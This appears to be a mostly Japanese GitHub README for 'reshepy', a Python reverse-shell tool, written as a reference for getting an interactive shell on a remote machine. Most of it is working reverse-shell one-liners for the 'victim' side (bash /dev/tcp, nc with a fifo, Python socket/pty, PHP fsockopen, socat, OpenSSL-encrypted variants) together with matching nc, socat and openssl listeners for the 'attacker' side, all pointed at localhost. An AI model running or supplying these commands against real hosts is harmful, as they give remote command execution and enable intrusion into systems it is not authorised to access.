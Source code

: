 # REverse SHell written in PYthon

このコマンドの存在意義はvictimマシン上で，secure/nosecureなどをオプションで区別して起動できる点(pythonのone linerを上回る明示的なメリットはない)

## What is reverse shell?
* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## reverse shell use case
* 任意のコマンドを実行できるサーバであるが，シェルでインタラクティブな操作ができない場合
  * e.g. jenkinsのslave(victim) <-> my machine(attacker)

## how to install
``` bash
# victim machine
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

``` bash
# attacker machine
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * 最低限`socat`がないと実作業には適さない
    * `openssl`はsecureな通信を実現したいならば欲しい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`pty`(e.g. `python -c 'import pty; pty.spawn("/bin/sh")'`)での代用や直接バイナリをダウンロードする方法があるので，`socat`コマンドは必須ではない
    * e.g. [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

## reshepy DONE
* 通信のみはsecureで制御信号も受け付ける

## reshepy TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

----

## ubuntu
### attacker machine
``` bash
nc -nvlp 8080
```

### victim machine
``` bash
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
``` bash
nc -nvl 8080
```

``` bash
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
``` bash
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

これはptyを利用していないのでsocatと組み合わせても効果を発揮しない悪い例
``` bash
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

socatもopensslもない状況のvictimでもpythonさえあればOK
``` bash
python -c 'import sys;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' localhost 8080
```

<details>
<summary>tmuxでshellの画面をresizeすると下記のようなエラーが発生する</summary>
<!-- you must insert blank line -->
```
Traceback (most recent call last):
                                      File "<string>", line 1, in <module>
                                                                            File "/usr/lib/python2.7/pty.py", line 175, in spawn
                                                                                                                                    _copy(master_fd, master_read, stdin_read)
                                       File "/usr/lib/python2.7/pty.py", line 147, in _copy
                                                                                               rfds, wfds, xfds = select(fds, [], [])
                                                                                                                                     select.error: (4, 'Interrupted system call')
```
</details>



``` bash
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

``` bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

``` bash
reshepy localhost:8080
```
ptyを内部で利用しているのでsocat対応済み

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
``` bash
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```

`socat` secure version
``` bash
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
pythonとopensslが使える場合
``` bash
rm -f .fifo; mkfifo .fifo;python -c 'import pty; pty.spawn("/bin/bash")' < .fifo 2>&1 | openssl s_client -quiet -connect localhost:8080 > .fifo;rm -f .fifo
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでも制御コマンド対応となる

socatとopensslが使える場合
`socat` secure version
``` bash
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

* client側が適切なサーバかどうかを判定する処理
  * (ctrl-cやtab ok)

``` bash
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
* 上記のコマンドのcert.pemに該当する部分をbase64でencodeしてテキストベースで貼り付ければ余計なファイルは不要な状態となる
  * また，基本的に，victimが変なサーバに接続することを防止できれば，attackerが変なクライアントを受け入れてもそれほど問題はない
    * (attacker側はコマンドの送信と表示のみであることと，ユースケースとしてネットワーク的に外からのアクセスは受け付けない場所にあると仮定されるため)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
``` bash
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
